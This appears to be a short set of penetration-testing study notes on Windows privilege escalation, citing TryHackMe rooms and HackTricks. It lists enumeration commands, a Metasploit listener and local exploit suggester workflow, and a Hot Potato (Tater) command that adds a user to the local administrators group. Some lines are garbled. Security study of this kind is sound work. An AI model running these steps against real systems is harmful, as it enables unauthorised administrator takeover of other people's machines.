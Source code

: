 ## Kernel exploits for the BRAVE
Enumerate the [[Windows-Kernel]]
```powershell
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
driverquery /v
```
Research potential exploit...

[[Metasploit]] modules:
```bash
msfconsole -> use multi/handler -> set payload - >set lhost -> run
# msfvenom your tailoured shell for targeting architecture professionalism
# copy shell to Windows box and run it
# On attack box
run post/multi/recon/local_exploit_suggester
# For example 
# identify exploit/windows/local/ms16_014_wmi_recv_notif
set session [sessionnumber]
set lport [portnumber]
run
```

## Hot Potato
```powershell
powershell.exe -nop -ep bypass
https://github.com/Kevin-Robertson/Tater.git
Import-Module C:\Path\To\HotPotato.ps1
Invoke-Tater -Trigger 1 -Command "net localgroup administrators user /add"
```


## References

[THM Windows PrivEsc Room](https://tryhackme.com/room/windowsprivesc20)
[THM Lay of the Land Room](https://tryhackme.com/room/thelayoftheland)
[Hacktricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens)
[PayloadsAllTheThings - Windows Privilege Escalation](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)
